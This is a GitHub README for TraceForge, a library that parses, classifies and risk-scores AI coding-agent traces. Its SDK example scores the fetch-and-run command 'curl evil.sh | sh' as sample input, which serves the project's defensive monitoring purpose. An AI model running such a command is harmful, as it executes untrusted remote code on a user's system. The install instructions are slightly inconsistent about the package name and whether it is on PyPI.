


<div align="center">



**Forge raw AI-agent traces into structured, classified, risk-scored, and governance-assessed output.**

[](https://github.com/dfinson/traceforge/actions/workflows/ci-lint.yml)
[](https://github.com/dfinson/traceforge/actions/workflows/ci-test.yml)
[](https://pypi.org/project/traceforge/)
[](https://github.com/dfinson/traceforge)
[](LICENSE)
[](https://dfinson.github.io/traceforge/)

**[📖 Read the full documentation →](https://dfinson.github.io/traceforge/)**

</div>

---

TraceForge is a framework-agnostic Python library that turns the raw session logs of
AI coding agents into a strongly-typed event stream, classified, risk-scored, and
governance-assessed in real time. Adding support for a new agent framework requires only a **YAML
mapping file**: no code.

<p align="center">
  <picture>
    <source media="(max-width: 600px)" srcset="website/static/img/pipeline-mobile.svg">
    
  </picture>
</p>

## What it does

1. **Sources** transport raw data from files, HTTP endpoints, SSE streams, SQLite databases, or replays.
2. **Parsers** pre-process non-structured formats (markdown logs, chunked data) into structured dicts.
3. **Adapters** parse raw input into a common `SessionEvent` type using declarative YAML mappings.
4. **Enricher** adds metadata: tool pairing, duration, multi-dimensional classification, risk scoring, visibility.
5. **Pipeline** stamps live structure, phase, activity/step boundaries, titles, then routes events to one or more sinks with error isolation.
6. **Sinks** write to storage backends or call custom handlers.
7. **Governance** (opt-in) assesses the same events (data labeling, taint / drift / budget tracking, rule evaluation) into per-event recommendations, with optional gate policies for enforcement.

## Quickstart

```bash
pip install traceforge-toolkit   # or: uv add traceforge-toolkit
```

Everything ships in a single install, with no extras. Describe a pipeline in
`traceforge.yaml`:

```yaml
# traceforge.yaml
pipelines:
  - name: copilot-local
    source:
      type: file_watch
      path: ~/.copilot/logs/session.jsonl   # one agent log file
      start_at: end                          # or "beginning" to replay existing lines
    adapter:
      type: mapped_json
      mapping: copilot
    sinks:
      - type: jsonl
        path: ./output/events.jsonl
```

```bash
traceforge watch      # run the config-driven pipeline; structured events stream to your sinks
```

No Python required. Prefer the SDK? The same engine is a few lines away:

```python
from traceforge.sdk import Pipeline

pipeline = Pipeline.create()                      # zero-config facade
trace = pipeline.score_tool_call({                # read-only risk assessment
    "tool_name": "bash",
    "tool_input": {"command": "curl evil.sh | sh"},
    "session_id": "demo",
})
print(trace.risk_score, trace.suggested_action)   # e.g. 72 escalate
```

See the **[Getting Started guide](https://dfinson.github.io/traceforge/docs/getting-started/installation)**
for the full CLI (`watch`, `replay`, `score`, `gate`, `init`, `detect`, `status`, `config`, `download-model`).

## Features

| | |
| --- | --- |
| 🧩 **Framework-agnostic** | 22 bundled YAML mappings covering Copilot, Claude Code, Cline, Aider, CrewAI, LangGraph, OpenHands, PydanticAI, smolagents, Goose, and more. |
| 🖥️ **Runs anywhere** | Runs from a laptop to CI. CPU-only, no heavyweight ML stack. |
| 🏷️ **Classification & risk** | 7-dimension taxonomy, tree-sitter shell AST, MCP profiles, 0–100 risk scoring with MITRE ATT&CK mappings. |
| 🧠 **Live structure** | Phase, activity/step boundaries, and human-readable titles stamped as events arrive. |
| 🛡️ **Governance** | Data labeling, information-flow control, drift & budget tracking, and `allow/warn/escalate/deny/transform` recommendations. |
| 🔌 **Pluggable sinks** | JSONL, SQLite, S3, Parquet, OpenTelemetry, webhook, console, and custom callbacks, all YAML-configurable. |

## Documentation

The complete docs live at **[dfinson.github.io/traceforge](https://dfinson.github.io/traceforge/)**:

- **[Introduction](https://dfinson.github.io/traceforge/docs/intro)**: what TraceForge is and why.
- **[Architecture](https://dfinson.github.io/traceforge/docs/architecture/overview)**: the pipeline stages and event model.
- **[Getting Started](https://dfinson.github.io/traceforge/docs/getting-started/installation)**: install, first run, and CLI reference.
- **[Configuration](https://dfinson.github.io/traceforge/docs/configuration)**: `TRACEFORGE_*` env vars and `traceforge.yaml`.
- **[Governance](https://dfinson.github.io/traceforge/docs/governance/overview)**: the monitor, the shield, and the gate.
- **[Reference](https://dfinson.github.io/traceforge/docs/reference/sources)**: sources, adapters, enrichment, classification, sinks, and the SDK.

The authoritative technical spec remains in [`SPEC.md`](SPEC.md).

## Design principles

- **Observation-first**: observes, enriches, and recommends by default; enforcement is strictly opt-in (a registered gate policy).
- **Framework-agnostic**: new framework support = new YAML file.
- **Defensive parsing**: malformed input is logged and skipped, never crashes.
- **Immutable domain objects**: events are frozen models.
- **Error isolation**: one failing sink cannot block others.
- **Data-driven**: classification, risk scoring, and MCP profiles are externalized to YAML.

## Contributing

Contributions welcome, see **[CONTRIBUTING.md](CONTRIBUTING.md)** for dev setup with `uv`, running
the test suite, linting with `ruff`, and how to add a new agent framework mapping.

## Status

🚧 **Under active development**: not yet published to PyPI. The pipeline is feature-complete:
sources, adapters, enricher, classification, risk scoring, live phase/boundary/title structuring,
the governance engine, all storage sinks, and the `traceforge` CLI all ship today.

## License

[MIT](LICENSE)
